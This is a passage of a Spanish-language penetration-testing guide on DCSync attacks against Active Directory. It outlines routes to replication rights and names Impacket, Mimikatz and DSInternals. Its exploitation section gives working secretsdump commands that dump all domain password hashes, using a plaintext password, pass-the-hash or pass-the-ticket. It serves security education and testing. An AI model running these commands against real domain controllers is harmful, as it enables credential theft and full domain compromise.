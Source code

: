 En este punto el objetivo general es buscar una vía de acceso al DCSYNC. En mi opinión existen varias vías:
1- Las basadas en Manipulaciones de permisos: Podemos encontrarnos un usuario el cual tenga el permiso "Generic Write" que nos permita escalar a los permisos que necesitamos. Será probablemente más sencillo encontrar manipulaciones a los Domain Admins en máquinas genéricas, pero es menos evidente cuando consigues un usuario así si no eres metódico.
2- Las basadas en problemas en la configuración de permisos o gestión de usuarios: Puedes dar con usuarios que estén en grupos privilegiados o sean Domain Admin debido a una mala gestión de los usuarios y de las máquians a las que acceden. Suele ser la vía común que se trata en el abuso de DCSYNC.
3- Las basadas en Manipulaciones de Tickets

## 4. Explotación
Como con todo una vez hemos realizado una escalada podemos usar multitud de herramientas para explotar una vulnerabilidad concreta. De manera habitual existen dos herramientas que se usan [**Impacket**](https://github.com/fortra/impacket) y mimikatz [**Mimikatz**](https://github.com/gentilkiwi/mimikatz). También puedes usar [**DSInternals**](https://github.com/MichaelGrafnetter/DSInternals/tree/master) para realizar los pasos similares como se explica en su [**blog**](https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/)

En resumen existen multitud de software para realizar esa extracción como tal esto no es un problema ya que no necesitas estar en una máquina en dominio sino tener alcance al DC contra el que vayas para así poder realizarlo

```text
# Contraseña en texto plano
secretsdump -outputfile 'dcsync' -dc-ip "$DC_IP" "$DOMAIN"/"$USER":"$PASSWORD"@"$DC_HOST"

# Pass-the-Hash (PTH)
secretsdump -outputfile 'dcsync' -hashes :"$NT_HASH" -dc-ip "$DC_IP" "$DOMAIN"/"$USER"@"$DC_HOST"

# Pass-the-Ticket (PTT)
KRB5CCNAME=ticket.ccache secretsdump -k -no-pass -outputfile 'dcsync' -dc-ip "$DC_IP" @"$DC_HOST"
```

Una vez lo ejecutemos obtendremos una salida de los hashes de todo el dominio replicados por lo que movernos será fácil y un verdadero problema para el sitio que se haya comprometido.
